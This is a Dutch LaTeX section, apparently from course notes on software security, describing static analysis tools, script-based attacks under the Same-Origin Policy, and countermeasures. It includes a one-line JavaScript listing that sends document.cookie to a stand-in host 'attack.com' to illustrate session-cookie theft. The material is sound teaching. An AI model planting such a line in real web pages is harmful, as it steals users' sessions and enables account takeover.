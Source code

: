 \documentclass[../main.tex]{subfiles}
\begin{document}
\paragraph{Onderscheppen} Statische, dynamische of hybride controle van code tijdens de ontwikkelings- en testfase. Deze technieken zijn gebaseerd op een verzameling regels die gevaarlijke patronen onderscheppen.
\\\\
Voorbeelden van dergelijke programma's zijn \textit{Fortify Source Code Analyzer}, \textit{FindBugs}, \textit{Coverity Static Analysis}. Deze software kan echter slachtoffer worden van \textit{false-positives} en \textit{false-negatives}.

\subsection{Scripts}
Hoewel de \textbf{SOP} voorkomt dat script rechtstreeks verbinding maken met server van de aanvaller kunnen script toch entiteiten aan de webpagina toevoegen die leiden tot een HTTP request naar een script-specifieke server. Als voorbeeld zien we hieronder hoe een script een cookie kan lekken naar een andere server.
\begin{lstlisting}[caption=Javascript code om cookie te lekken]
new Image().src = "http://attack.com/?=" + document.cookie;
\end{lstlisting}
Het is zelfs mogelijk voor het script om in twee richtingen te communiceren door het insluiten van een script. 
\\\\
Voorgaande techniek kan gebruikt worden om de session cookie te lekken. Eens hiervan in het bezit kan de aanvaller de hele sessie overnemen. Een andere aanval bestaat uit een script dat willekeurige requests stuurt naar de server van waar het script komt en op die manier bijkomende requests stuurt in de gebruikerssessie.

\subsubsection{Tegenmaatregelen}
Er zijn twee algemene tegenmaatregelen voor dit probleem:
\begin{itemize}
	\item Ontwerp van de JavaScript API en de browser
	\item De \textit{Same-Origin-Policy} die wordt afgedwongen door de brwoser
\end{itemize}
Deze twee zullen de meeste aanvallen kunnen stoppen. Toch zijn bijkomende tegenmaatregelen belangrijk. 
\end{document}
